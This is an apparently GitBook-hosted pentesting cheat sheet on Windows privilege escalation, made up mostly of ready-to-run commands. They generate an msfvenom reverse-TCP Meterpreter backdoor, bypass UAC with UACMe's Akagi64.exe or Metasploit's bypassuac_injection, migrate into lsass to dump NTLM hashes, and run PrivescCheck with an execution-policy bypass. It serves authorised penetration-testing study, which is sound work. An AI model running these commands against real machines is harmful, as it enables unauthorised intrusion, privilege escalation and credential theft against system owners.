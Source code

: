 # Windows - Privilege Escalation

## Bypassing UAC With UACIMe

**UAC (User Account Control)** is a Windows security features that is used to prevent unauthorized changes from being made to the OS

**UACMe** is an open source, robust privilage escalation tool. It can be used to bypass windows UAC by leveraging varius techniques

```bash
# Create a backdoor with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe
```

```bash
# Set up msf listener
service postgresql start && msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $IP
set LPORT $PORT 
run
```

{% code overflow="wrap" %}
```bash
# Create 'Temp' dir on target machine (best folder for payloads)
cd C:\\
mkdir Temp

# Upload the payload on the Temp dir (meterpreter session)
upload backdoor.exe

# Upload the UACMe tool on the target
# https://github.com/hfiref0x/UACME
upload PATH/TO/UACME/Akagi64.exe

# Open Shell
shell

# Use the tool
.\Akagi64.exe KEY C:\Temp\backdoor.exe
## The key is a flag to decide what type of operation the tool do to bypass UAC (23 is the most used)
```
{% endcode %}

```bash
# shell's been open in msf listener (multi/handler)

# check privilege
getprivs

# Migrate windows privilages 
ps -s lsass.exe 
migrate PID

# Make a NTML hashdump 
hashdump
```

***

{% code title="Metasploit PrivEsc" %}
```bash
service postgresql start && msfconsole
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION SESSION
set LPORT PORT
set TARGET Windows\ x64 
run
```
{% endcode %}

***





***

## Windows Kernel Exploitation

### Windows Exploit Suggester

{% embed url="https://github.com/bitsadmin/wesng" %}

```bash
# Identify the kernel vulnerabilities by kernel version
# Metasploit
service postgresql start && msfconsole
use multi/recon/local_exploit_suggester
sessions
set SESSION SESSION
run
```

***

## Identifying Windows Privilege Escalation Vulnerabilities

### PrivescCheck Script

{% embed url="https://github.com/itm4n/PrivescCheck" %}

```bash
# After downloading the script and copying it onto the target Windows machine,
# run it using one of the commands below.
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"
```
